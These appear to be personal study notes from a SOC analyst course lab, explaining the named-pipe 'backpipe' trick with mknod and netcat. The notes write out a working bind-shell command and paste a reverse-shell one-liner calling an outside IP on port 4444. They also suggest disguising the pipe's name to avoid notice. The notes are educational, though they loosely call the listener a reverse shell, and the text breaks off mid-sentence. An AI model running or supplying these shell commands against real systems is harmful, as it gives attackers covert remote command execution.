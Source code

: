 ```yaml
---
{"dg-publish":true,"permalink":"/tool-deep-dives/linux/named-pipe/"}
---
```


During the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/BHIS SOCC Notes Overview\|BHIS SOC Analyst Core]] course I took recently, the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-LinuxCLI\|Linux Lab]] had an interesting command where you create a FIFO (First in, First out) "backpipe" with `mknod` (create filesystem node) and `netcat`, effectively creating a shell [[Definitions and Topics/backdoor\|backdoor]] on a [[Tool Deep-Dives/Linux\|Linux]] system.

```Bash
mknod backpipe p
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```


Basically, `mknod <string> p` creates a named *pipe* (specified by the `p`) called "backpipe" (though it could functionally be named anything that doesn't conflict with other things; for example in the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-tcpdump#Bonus Lab\|tcpdump Bonus Lab]], one could name it *timesync.svc* or something similar to make it less obvious). This *Named Pipe* allows us to pipe an output *from* any location in the shell *to* any location in the shell.
![ThinkingWithPortals.gif|300](/img/user/Attachments/ThinkingWithPortals.gif)

Additionally, `>` and `<` can be used to redirect input in a script; for example, if we ran `./FiscalReport.sh < 2024Q1.csv`, the `FiscalReport` shell script would input the values from `2024Q1.csv`. 

Let's break backpipe command down and see what's going on.
1. `mknod backpipe p`
	1. Creates a named pipe called "backpipe"
2. `/bin/bash 0<backpipe`
	1. `/bin/bash` reads its [[Tool Deep-Dives/Linux Data Streams\|standard input]] (`stdin`, file descriptor `0`) from the "backpipe"
		2. `backpipe`'s output becomes `/bin/bash`'s input
3. `|`
	1. The output from the prior command is pipe into the following command
4. `nc -l 2222 1>backpipe`
	1. Netcat listens to port *2222* and the [[Tool Deep-Dives/Linux Data Streams\|standard output]] (`stdout`, file descriptor `1`) is sent into the named pipe "backpipe"

**To summarize,** this forms a loop; *Netcat* listens for data on port *2222*, sends it to the *backpipe*. The *backpipe* sends the output to *Bash*'s input, and *Bash*'s output gets piped to *Netcat*. 


![nyow-youre-thinking-with-portals-e1303609354625.jpg](/img/user/Attachments/nyow-youre-thinking-with-portals-e1303609354625.jpg)

This is a [[Reverse Shell\|Reverse Shell]], which allows an attacker to execute shell commands on a remote system.

[Reverse shell cheatsheet](https://saucer-man.com/reverse/) has a similar command, which I've pasted below:

`mknod backpipe p && nc 10.10.10.10 4444 0<backpipe | /bin/bash 1>backpipe`

This is all pretty wild, but what else can we do with a backpipe? Like what we
